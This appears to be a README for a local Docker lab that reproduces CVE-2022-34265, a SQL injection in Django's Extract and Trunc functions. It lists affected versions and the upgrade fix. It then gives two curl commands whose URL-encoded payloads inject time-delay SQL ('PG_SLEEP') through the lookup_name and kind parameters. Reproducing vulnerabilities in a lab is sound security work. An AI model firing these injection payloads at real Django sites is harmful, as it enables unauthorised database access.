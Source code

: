 # CVE-2022-34265
## Usage
```bash
docker-compose build
docker-compose up -d
```
### Affected WS form plugin
- Django 3.2.x prior to 3.2.14 and Django 4.0.x prior to 4.0.6

### Countermeasure
- Update to Django 3.2.14 or higher.
- Update to Django 4.0.6 or higher.

### Environment
- Mac mini on Mac OS Ventura (13.0)

### Verification of the reported vulnerability
- Launch the container and go to [http://localhost:4131](http://localhost:4131) to check all is running
- Open a terminal and put the following commands: 
```bash
curl "http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
curl "http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```
After the execution of one command, you should experience response delay greater that 5 seconds. This means that arbitrary SQL queries can be executed. This means that attacks are possible, and they can result in very dangerous one.

